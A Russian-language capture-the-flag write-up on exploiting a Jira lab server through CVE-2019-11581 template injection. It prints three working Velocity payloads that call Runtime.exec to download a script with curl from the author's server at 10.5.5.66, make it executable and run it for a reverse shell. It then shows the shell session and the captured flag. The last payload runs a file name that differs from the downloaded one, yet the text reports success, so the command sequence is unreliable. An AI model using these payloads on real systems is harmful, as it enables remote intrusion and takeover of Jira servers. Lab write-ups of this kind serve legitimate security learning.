 # Врайтап на Jiro


## Первый шаг.
Первым же делом проверил порты через `nmap`, увидел `8080/tcp open  http-proxy` 
Перешел по 8080 порту и первым же делом пошел искать CVE на Jiro

Нашел этот гитхаб `https://github.com/UGF0aWVudF9aZXJv/Atlassian-Jira-pentesting?tab=readme-ov-file#cve-2019-11581-template-injection` и `CVE-2019-11581`

## Шаг второй.

Подумав я решил, что код выполняется на сервере, не видимо для пользователя. Так еще и в локальной дерриктории нельзя ничего создавать и выполнять команды. 

Сделал такие три пайлоада для получения реверс шела.

Так же я запустил фласк сервер что бы оттуда на сервер скачать файл `marcusovDobr.sh`

Залил на сервер вредоносный файл
```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('curl -L -o /tmp/marcusovDobr.sh http://10.5.5.66:41200/file').waitFor()
```

Дал файлу полные права
```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('chmod +x /tmp/marcusovDobr.sh').waitFor()
```

Исполни файл
```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('/tmp/marcusovDob.sh').waitFor()
```

И получаю реверс шелл

```
daemon@67f9880e3d47:/var/atlassian/application-data/jira$ ls
ls
analytics-logs
caches
data
database
dbconfig.xml
export
import
log
logos
monitor
plugins
shell
tmp
user_flag.txt
daemon@67f9880e3d47:/var/atlassian/application-data/jira$ cat user_flag.txt
cat user_flag.txt
nto{j1rn4y4_uy4zv1m057}
```
``
